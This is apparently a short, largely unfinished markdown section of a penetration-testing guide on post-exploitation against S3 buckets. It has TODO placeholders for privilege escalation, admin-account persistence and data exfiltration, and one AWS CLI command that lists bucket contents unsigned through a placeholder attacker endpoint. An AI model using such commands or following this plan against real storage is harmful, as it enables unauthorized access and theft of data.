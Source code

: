 # 04 - Post Exploitation

## Privilege Escalation

TODO: Write conditions to escalate to gain full control of the s3 bucket servers

## Maintaining Access

TODO: Provide steps for creating user accounts with admin access

## Data Exfiltration

TODO: Setup MinIO on a server to exflitrate s3 bucket instances and write conditions before executing this phase


`$ aws s3 --endpoint=http[s]://<attacker_url> --no-sign-request --recursive ls s3://<s3_bucket_IP>`
## References

- [MinIO](https://min.io)

- [minio-backup-s3](https://github.com/fandoghpaas/minio-backup-s3)
